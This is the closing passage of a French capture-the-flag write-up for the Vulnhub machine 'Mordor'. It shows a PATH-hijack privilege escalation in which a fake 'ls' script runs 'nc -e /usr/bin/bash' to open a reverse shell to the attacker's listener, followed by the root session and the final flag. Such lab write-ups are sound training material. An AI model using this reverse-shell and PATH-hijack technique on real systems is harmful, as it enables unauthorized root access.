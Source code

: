 Solution habituelle :

```console
barad_dur@mordor:~$ echo "nc -e /usr/bin/bash 192.168.56.1 80" > ls
barad_dur@mordor:~$ chmod +x ls
barad_dur@mordor:~$ PATH=.:$PATH ./plans
```

Et j'obtiens le flag final :

```console
$ sudo ncat -l -p 80 -v
[sudo] Mot de passe de root : 
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.56.188.
Ncat: Connection from 192.168.56.188:57648.
id
uid=0(root) gid=0(root) Gruppen=0(root),1003(barad_dur)
cd /root
ls
flag.txt
cat flag.txt
                                             _______________________
   _______________________-------------------                       `\
 /:--__                                                              |
||< > |                                   ___________________________/
| \__/_________________-------------------                         |
|                                                                  |
 |                       Congratulations                           |
 |                                                                  |
 |      You have successfully reach the root, i hope                |
  |        you enjoyed the ctf and the story.                       |
  |                                                                  |
  |           flag{262efbb6087a6aae46f029a2ff19f9f409c9cd3d}         |
  |                                                                   |
   |       Created by strider, CC v3                                  |
   |                                                                  |
   |                                                                 |
  |                                              ____________________|_
  |  ___________________-------------------------                      `\
  |/`--_                                                                 |
  ||[ ]||                                            ___________________/
   \===/___________________--------------------------
```

Content d'en avoir terminé surtout 😅

Il semble que [bl4nk_5h3ll](https://soufian2017.github.io/Blog/posts/Mordor-Vulnhub/) partage cet avis.

> This machine is one hell of an annoying one tbh.
